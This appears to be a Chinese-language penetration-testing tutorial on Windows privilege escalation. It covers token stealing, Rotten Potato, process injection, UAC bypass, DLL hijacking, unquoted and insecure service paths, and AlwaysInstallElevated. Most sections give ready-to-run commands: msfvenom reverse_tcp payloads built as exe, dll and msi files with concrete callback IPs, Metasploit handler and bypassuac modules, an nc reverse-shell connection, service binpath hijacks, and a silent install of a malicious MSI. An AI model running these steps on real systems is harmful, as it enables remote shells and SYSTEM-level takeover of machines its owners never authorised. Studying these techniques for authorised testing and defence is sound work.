







# 权限提升——windows提权

## 令牌窃取

1. 令牌窃取提权只适用于本地用户

2. 使用msf生成后门

   ``` shell
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
   ```

   

   后门成功生成

   

3. 使用msf模块multi/handler，加载payload：windows/meterpreter/reverse_tcp，设置本地监听IP和端口

``` shell
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.2.108
set lport 3333
run
```



4. 将生成的后门传至目标主机中并运行，msf成功接收到shell反弹请求，获取到目标主机的反弹shell



5. 输入getuid命令查看，可以看到获取到了本地用户权限，下面使用incognito模块进行本地提权

``` shell
use incognito
list_tokens -u  //查看存在哪些用户
impersonate_token "NT AUTHORITY\SYSTEM" //发现存在NT AUTHORITY\SYSTEM的系统用户，窃取该系统用户令牌进行提权
```

成功提权至系统用户



6. 烂土豆提权。

- 烂土豆令牌窃取。若获取到的webshell用户权限很低，则可以借助烂土豆进行提权，但必须先执行烂土豆后门程序再加载incognito模块才能获取到系统用户权限，后续操作跟上面的一样。

- 烂土豆攻击。直接使用烂土豆漏洞进行攻击，直接获取权限

  ``` shell
  execute -cH -f ./potato.exe //配合烂土豆
  ```

## 进程注入

1. 进程注入相当于开了一个后门，注入到其他用户下，只适用本地用户

2. Win2008以前版本可以使用pinjector工具进行进程注入

   ``` shell
   pinjector -l
   pinjector -p 420 cmd 3333
   nc 192.168.46.149 3333
   ```

3. 进程迁移注入

   - msf获取到普通权限后，输入ps命令查看系统进程权限

   - 找到一个以系统用户权限运行的进程记下该进程的PID，使用migrate PID进行进程迁移，成功后即可获取到系统用户权限

     ``` shell
     ps
     migrate PID  //迁移进程的PID
     ```





## BypassUAC提权

1. 为了远程执行目标的exe或者bat可执行文件绕过此安全机制，以此叫BypassUAC。绕过项目：

   - MSF内置

   - Powershell渗透框架

   - UACME项目(推荐)。目前已有127种绕过方法

     [UACME](https://github.com/hfiref0x/UACME)

2. MSF内置提权

   - MSF使用getsystem进行提权。msf获取到普通权限后，输入getsystem回车，msf会自动尝试提权。若windows系统的UAC开关开启了，则这种方法不会成功

   - MSF内置UAC绕过。msf获取普通用户权限后backgroud返回，执行以下命令即可获取系统用户权限

     ``` shell
     use exploit/windows/local/bypassuac //对win10以上无效
     use session 1 //设置会话编号，使用session查看会话编号，设置成一样的
     run
     getsystem
     ```

   - win10以上BypassUAC绕过可以使用以下模块

     ``` shell
     use exploit/windows/local/bypassuac_eventvwr
     
     use exploit/windows/local/bypassuac_injection
     
     use exploit/windows/local/ask //钓鱼，需要对方点击配合
     ```


## powershell框架与DLL劫持

1. 工具
   - [JAWS](https://github.com/411Hall/JAWS)也是一个powershell脚本，目的是为了帮助渗透测试员和CTF选手快速识别Windows主机上的提权向量。该脚本是用powershell2.0编写的，所以在win7之后的主机上都可以运行。
   - [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)（PowerUp）。PowerSploit是一个powershell工具，能够协助在Windows系统上进行本地权限提升。PowerUp的目的是整合所有因为配置错误而导致的Windows本地权限提权向量。
     - 先导入模块：Import-Module .\PowerUp.ps1
     - 再运行Invoke-Allchecks，会输出所有可识别的漏洞。
     - 然后可以使用对应的指令或脚本执行相应操作

2. 不带引号服务路径配合MSF-MacroExpert

   - 原理：Windows程序启动的时候需要DLL。如果这些DLL 不存在，则可以通过在应用程序要查找的位置放置恶意DLL来提权。通常，Windows应用程序有其预定义好的搜索DLL的路径，它会根据下面的顺序进行搜索：

     - 应用程序加载的目录
     - C:\Windows\System32
     - C:\Windows\System
     - C:\Windows
     - 当前工作目录Current Working Directory，CWD
     - 在PATH环境变量的目录（先系统后用户）

   - 过程：信息收集-进程调试-制作dll并上传-替换dll-启动应用后成功。三种方法：

     - 检测脚本：JAWS PowerUp(PowerSploit)
       上传反弹exe，设置好对应执行名后，执行sc start "Macro Expert"
     - 检测命令寻找不带引号服务路径

     ``` shell
     wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
     ```

     - 利用火绒剑进行进程分析加载DLL，一般寻程序DLL利用，使用重命名的方法用后门dll替代原dll。

     ``` shell
     msfvenom -p windows/meterpreter/reverse_tcp lhost=47.94.236.117  lport=4444 -f dll -o xiaodi.dll
     ```

   - 提前信息收集相关软件及DLL问题程序，本地调试成功后覆盖DLL实现利用

   - 如果路径中某一级目录名中存在空格，则可以将制作好的后门程序命名为该目录相同的名字，后缀不变，然后放到跟该目录同级的目录下，当软件运行时会加载运行后门程序，即可实现劫持dll

3. 不安全的服务权限配合MSF-NewServices

   - 原理：即使正确引用了服务路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多的权限，例如，可以直接修改它导致重定向执行文件。

   - 过程：检测服务权限配置-制作文件并上传-更改服务路径指向-调用后成功

   - 检测项目：accesschk PowerUp(PowerSploit)

     ``` shell
     accesschk.exe -uwcqv "administrators" *
     Import-Module .\PowerUp.ps1  //导入脚本模块
     Invoke-AllChecks  //必须先导入脚本才可以执行
     sc config "newservices" binpath="C:\Program.exe" //Program.exe是事先准备好的后门程序，放到和Program Files目录的同级目录下，也就是放到C盘，newservices是找到的有漏洞可被利用的程序
     sc start newservices //启动程序
     ```

4. 补充

   - Web权限一般需等待软件或服务器重启加载服务运行调用。本地用户直接命令启动服务或手工启动服务加载运行调用Web权限一般需等待软件或服务器重启加载服务运行调用。本地用户直接命令启动服务或手工启动服务加载运行调用
   - DLL劫持&引号路径这类一般适用于本地用户，部分WEB权限也可以。但是这个服务权限提权基本在WEB权限不适应，除非WEB权限本身就很高，如JSP后门等

## 注册表

1. 控制台输入gpedit.msc打开本地组策略表，打开管理模板->windows组件->windows installer->始终以提升的权限进行安装，若启用了，则可以直接利用进行提权

2. AlwaysInstallElevated是注册表的一个键值，当其值为1的时候，普通用户即可以system权限安装msi程序。当前用户权限是否能够更改MSI安装时的启用状态，如不能修改则必须为启用方可使用本次提权技术。

3. 获取到webshell后，输入以下命令查看是否存在安全问题

   ``` shell
   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```

4. 利用过程：会话反弹-生成MSI-上传MSI-监听-执行MSI

   - 生成利用的MSI文件:

     ``` shell
     msfvenom -p windows/meterpreter/reverse_tcp lhost=IP  lport=PORT -f msi -o xxx.msi
     ```

   - 执行MSI:

     ``` shell
     msiexec /quiet /qn /i xxx.msi
     ```

     
